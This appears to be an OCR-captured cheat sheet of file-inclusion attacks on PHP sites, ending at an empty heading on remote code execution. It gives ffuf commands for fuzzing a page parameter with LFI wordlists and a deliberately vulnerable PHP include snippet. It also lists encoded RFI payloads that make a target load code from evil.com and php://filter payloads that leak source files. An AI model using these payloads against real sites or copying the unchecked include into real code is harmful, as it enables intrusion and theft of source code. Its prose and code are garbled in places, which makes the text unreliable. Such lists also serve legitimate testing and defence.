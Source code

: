 # Automation

```
ffuf -u http://example.com/?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
ffuf -u http://example.com/?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
```

As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course, it takes a second person to have it. Now, this article will hopefully give you an idea of protecting your website and most importantly your code from a file inclusion exploit. I’ll give code examples in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.
```php
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

# Remote File Inclusion (RFI)

`Payload`

```
?page=//evil.com/exploit
?page=%2F%2fevil.com/exploit
?page=%2C%2Cevil.com/exploit
?page=http://evil.com/exploit
?page=http%3A//evil.com/exploit
?page=http%3A%2F%2Fevil%2Ecom/exploit
?page=http%253A%252F%252Fevil%252Ecom/
?page=test@sub.example.com/
```

# LFI / RFI using wrappers

* Wrapper php://filter

The part `php://filter` is case insensitive

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

# Remote Code Execution (RCE)
